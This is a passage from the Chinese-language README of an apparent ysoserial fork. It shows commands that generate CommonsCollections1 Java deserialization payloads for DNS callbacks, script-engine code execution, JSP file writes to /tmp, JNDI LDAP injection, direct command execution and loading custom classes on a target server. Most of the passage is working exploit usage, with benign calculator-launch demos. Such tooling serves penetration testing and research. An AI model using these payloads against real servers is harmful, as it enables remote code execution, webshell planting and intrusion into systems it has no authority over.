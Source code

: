 ![iShot_2022-06-18_20.38.31](images/iShot_2022-06-18_20.38.31.png)

**DNSLOG示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'DL-xxx.org'
```

效果图：

![image-20220618204249501](images/image-20220618204249501.png)

**脚本引擎解析 JS 代码示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'SE-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```

效果图：

![image-20220618204632444](images/image-20220618204632444.png)

**文件写入示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'WF-/tmp/1.jsp#PCVAcGFnZSBwYWdlR.....'
```

效果图：

![image-20220618205022904](images/image-20220618205022904.png)

**触发 JNDI 查询注入示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'JD-ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```

效果图：

![image-20220618205547397](images/image-20220618205547397.png)

**普通命令执行示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'open -a Calculator.app'
```

效果图：

![image-20220618205828822](images/image-20220618205828822.png)

### 任意自定义代码

如果你不想使用本项目中提供的恶意逻辑，也不想执行命令，可以通过自定义代码的形式，自定义代码将会在目标服务器通过 ClassLoader
进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径。
